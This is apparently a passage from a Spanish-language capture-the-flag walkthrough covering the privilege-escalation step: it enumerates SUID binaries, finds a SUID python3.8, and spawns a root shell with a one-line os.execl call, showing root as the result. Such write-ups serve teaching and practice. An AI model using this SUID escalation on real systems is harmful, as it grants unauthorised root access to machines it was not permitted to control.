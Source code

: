## Escalate Privileges

Si listamos los permisos `SUID` que tenemos veremos lo siguiente:

```shell
find / -type f -perm -4000 -ls 2>/dev/null
```

Info:

```
2109471    468 -rwsr-xr-x   1 root     root       477672 Jan  2  2024 /usr/lib/openssh/ssh-keysign
  2109456     52 -rwsr-xr--   1 root     messagebus    51344 Oct 25  2022 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
  2104556     52 -rwsr-xr-x   1 root     root          53040 Feb  6  2024 /usr/bin/chsh
  2104685     44 -rwsr-xr-x   1 root     root          44784 Feb  6  2024 /usr/bin/newgrp
  2104696     68 -rwsr-xr-x   1 root     root          68208 Feb  6  2024 /usr/bin/passwd
  2104759     68 -rwsr-xr-x   1 root     root          67816 Apr  9  2024 /usr/bin/su
  2104621     88 -rwsr-xr-x   1 root     root          88464 Feb  6  2024 /usr/bin/gpasswd
  2104680     56 -rwsr-xr-x   1 root     root          55528 Apr  9  2024 /usr/bin/mount
  2126697      4 -rwsr-xr-x   1 root     root            320 Oct 11 04:09 /usr/bin/man
  2104784     40 -rwsr-xr-x   1 root     root          39144 Apr  9  2024 /usr/bin/umount
  2104550     84 -rwsr-xr-x   1 root     root          85064 Feb  6  2024 /usr/bin/chfn
  2126698   5360 -rwsr-xr-x   1 root     root        5486392 Jan 17 15:40 /usr/bin/python3.8
  2109258    164 -rwsr-xr-x   1 root     root         166056 Apr  4  2023 /usr/bin/sudo
```

Vemos unos permisos `SUID` bastante interesantes, que sera el siguiente:

```
2126698   5360 -rwsr-xr-x   1 root  root  5486392 Jan 17 15:40 /usr/bin/python3.8
```

Por lo que vemos podremos ejecutar `python3.8` como el usuario `root` ya que podemos ejecutarlo en su nombre.

```shell
python3.8 -c 'import os; os.execl("/bin/bash", "bash", "-p")'
```

Info:

```
bash-5.0# whoami
root
```

Y con esto ya seremos `root`, por lo que habremos terminado la maquina.
